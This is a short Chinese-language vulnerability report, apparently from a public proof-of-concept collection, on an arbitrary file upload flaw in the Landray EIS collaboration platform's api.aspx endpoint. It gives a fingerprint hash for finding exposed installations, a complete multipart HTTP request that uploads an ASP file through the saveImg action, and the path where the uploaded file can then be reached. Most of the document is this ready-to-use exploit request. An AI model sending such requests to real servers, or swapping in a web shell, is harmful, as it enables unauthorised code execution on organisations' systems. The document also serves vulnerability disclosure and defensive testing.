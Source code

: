 # 蓝凌EIS 智慧协同平台 api.aspx 任意文件上传漏洞

## 漏洞描述

蓝凌EIS 智慧协同平台 api.aspx 文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>蓝凌EIS 智慧协同平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="953405444"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1676088789779-b0162f24-5a7a-4e83-b38c-61f8803a2244.png)

验证POC

```php
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Content-Length: 219
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynUqjgvhmkL1dxpCV
Upgrade-Insecure-Requests: 1

------WebKitFormBoundarynUqjgvhmkL1dxpCV
Content-Disposition: form-data; name="file"filename="test.asp"
Content-Type: text/html

<% response.write("Test")%>
------WebKitFormBoundarynUqjgvhmkL1dxpCV--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1698146944052-212e870a-a547-4d03-8850-29efe15fd746.png)

```php
/files/editor_img/xxx/xxx.asp
```